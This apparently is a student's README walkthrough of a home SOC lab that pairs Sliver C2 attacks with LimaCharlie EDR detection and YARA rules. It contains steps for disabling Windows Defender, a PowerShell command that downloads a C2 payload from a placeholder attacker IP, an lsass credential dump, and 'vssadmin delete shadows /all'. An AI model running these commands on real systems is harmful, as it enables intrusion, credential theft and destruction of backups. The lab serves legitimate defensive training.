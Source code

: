 <h1>SOC Analyst Home Lab</h1>


<h2>Description</h2>
Security Operations Center (SOC) analysts play a crucial role in maintaining the security posture of organizations by monitoring, analyzing, and responding to security incidents. While looking for projects to gain hands on experience outside of my academic labs I heard about this project from Eric Capuano (Recon InfoSec) via Gerald Auger (SimplyCyber) . Eric's substack blog "So you want to be a SOC Analyst" was a great resource; explaining the scope, process and execution of creating a home SOC lab where I accomplished the following :
<br/><br/>
- Configured VMware with Windows and Ubuntu VMs<br/>
- Managed Windows VM: disabled Defender, prevented standby, installed Sysmon, and deployed LimaCharlie EDR<br/>
- Set up Sliver C2 server on Ubuntu VM, executed payload on Windows, and analyzed EDR telemetry<br/>
- Developed & implemented blocking rule in LimaCharlie, proficient in crafting detection rules, and used baselining to reduce false positives<br/>
- Automated YARA scanning in LimaCharlie, developed rules for scanning files and processes, and created D&R rules for new .exe files in Downloads<br/>

<br />


<h2>Environments and Utilities Used</h2>

- <b>VMWare WorkStation 16 Pro</b>
- <b>Windows 11 DevEval</b>
- <b>Ubuntu Server 22.04.1</b>
- <b>LimaCharlie EDR</b>
- <b>Sliver Command & Control (C2) Server</b>
- <b>PowerShell</b> 
- <b>Windows Command Prompt & Linux Terminal</b>


<h2>Project walk-through:</h2>

<p align="center">
To start things off I already had VMWare Workstation Pro and just had to acquire fresh ISO's for Windows 11 DevEval and Ubuntu Server from their respective websites. <br />
<br />
Setting up the Ubuntu Server was quick and easy, just had to get the virtual network's SubNet IP and Gateway IP to setup manual ipv4 instead of dhcp, note our static ip for remote SSH conenction, and install OpenSSH server.<br />
<br />
When setting up the Windows VM you may think you can just disable Defender in settings and you would be wrong. To accomplish this you must also turn off microsoft defender antivirus in the Local Group Policy Editor, reboot in safe-mode to make some changes to the registry to disable AntiSpyware and disable a few services in regedit (Sense, WdBoot, WinDefend, WdNisDrv, WdNisSvc, and WdFilter). Next task was to prevent the VM from going into standby done by administrative command prompt to change the powercfg. Using an Administrative PowerShell I downloaded and installed Sysmon with SwiftOnSecurit's Sysmon config.<br />
<br />
Installing LimaCharlie EDR required making and account on their site and creating an organization. 
<br />
<br /> 
Creating the Sensor for Windows VM: <br/>
<img src="https://i.imgur.com/DmC3QXn.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Installing the Sensor via PowerShell using code given by LimaCharlie:  <br/>
<img src="https://imgur.com/hRMlOL9.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Configured rule for the new sensor to send SysMon event logs with it's EDR telemtry: <br/>
<img src="https://imgur.com/6hrkryg.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Remote SSH connection to Ubuntu Server from Windows VM to Install, Setup, and Control Sliver C2 Server: <br/>
<img src="https://imgur.com/xg37JJg.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Generated C2 Session Payload using Linux VM's static IP on Sliver. <br />
To get the payload onto the Windows VM I setup and downloaded from a temporary web server using commands in PowerShell: <br />
python3 -m http.server 80 <br />
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
<br />
Started Sliver Command and Control Session via SSH connection ie HTTP listener
<br />
Executed the C2 Payload on the Windows VM. Verified it's Session ID on Sliver and interacted with the session. Ran commands including info, whoami, getprivs, pwd, netstat, and ps -T.
<br />
<br />
Back in LimaCharlie I observed the EDR Telemtry gathered from the above actions (payload was named TINY_SENSE):  <br/>
<img src="https://imgur.com/JjSzLA2.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Checked hash of payload's exe and scanned it with VirusTotal. Item not found because our attacker C2 generated it on the spot:  <br/>
<img src="https://imgur.com/Xl3GNLr.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Using Sliver I went after credentials and dumped the lsass.exe process from memory and saved it to my Sliver C2 server. <br/>
 <br />
 LimaCharlie generated a sensitive process access event for lsass.exe dump as it is a common attack vector:  <br/>
<img src="https://imgur.com/nQBNoIC.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Created a custom D&R rule in LimaCharlie to generate a detection report:  <br/>
<img src="https://imgur.com/Gh9yYPQ.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Ran the lsass.exe dump again from Sliver to see if LimaCharlie detected it and was successful:  <br/>
<img src="https://imgur.com/t3ApQnE.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
 Next attack was vssadmin delete shadows /all and this was also detected by LimaCharlie with reference containing a YARA signature:  <br/>
<img src="https://imgur.com/0wZEx5d.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created new D&R rule that not only reports but blocks the attack:  <br/>
<img src="https://imgur.com/eHLF7EC.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created a YARA signature for the Sliver C2 Payload:  <br/>
<img src="https://imgur.com/LndMssj.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Used LimaCharlie EDR Sensor Console to run manual YARA scan of the Sliver Payload Exe:  <br/>
<img src="https://imgur.com/m39cVjD.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Created new rules to automatically scan downloaded EXEs and processes launched from Downloads directory:  <br/>
<img src="https://imgur.com/sdDwFsJ.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Tested new automatic yara scan rules by relaunching Sliver C2 Payload "TINY_SENSE.EXE":  <br/>
<img src="https://imgur.com/Lx1Feuk.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
This Project was a lot of fun and I learned a lot that expanded on my previous knowledge of Packet Capture and Analysis with nmap and wireshark. In my excitement running Sliver and playing both sides of attacker and attackee I forgot a few screenshots of it's use. Thank you to Eric Capuano for creating one of the best Lab Projects I have done yet.
</p>

<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
